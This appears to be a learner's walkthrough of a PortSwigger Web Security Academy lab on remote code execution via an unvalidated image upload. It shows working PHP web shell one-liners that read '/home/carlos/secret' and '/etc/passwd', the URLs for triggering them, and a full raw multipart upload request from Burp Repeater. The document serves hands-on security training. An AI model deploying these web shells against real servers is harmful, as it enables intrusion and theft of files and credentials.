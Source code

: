 # Remote code execution via web shell upload

## This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo file_get_contents('/home/carlos/secret'); ?>

---

### step 1

login using uername and password
upload image
and open image using right click on avatar

https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/Screenshot.png

### step2

upload

<?php echo file_get_contents('/home/carlos/secret'); ?>

this code as test as test.php
now
https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/test.php
you will get this secret code
ced1FZfjQHONoZWguqkBA63296QgpE2x

submit and solved the lab

## we can test this on repeater as well

POST /my-account/avatar HTTP/1.1
Host: 0a09001b037378d1c340c5240047000e.web-security-academy.net
Cookie: session=pgXZMQWGcfzMLRxWNZnx42mXpdTyNEHC
Content-Length: 327475
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a09001b037378d1c340c5240047000e.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypT9LSMVRq0q0kkdq
User-Agent: Mozilla/5.0 (X11; Linux x86*64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/\_;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a09001b037378d1c340c5240047000e.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="avatar"; filename="Screenshot_2022-12-16_03_42_29.png"
Content-Type: image/png

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="csrf"

0V9jAe3n3kflmgp5ShE0UlVSukOuKy7U
------WebKitFormBoundarypT9LSMVRq0q0kkdq--

---

remvove image data then add

<?php echo file_get_contents('/etc/passwd'); ?>

![screenshot](./images/lab1_etc_password_test_repeater.png)

![screenshot](./images/lab1_exploit_php_test.png)

![screenshot](./images/lab1_home_carlos_secret.png)

![screenshot](./images/lab1_secrete_code.png)
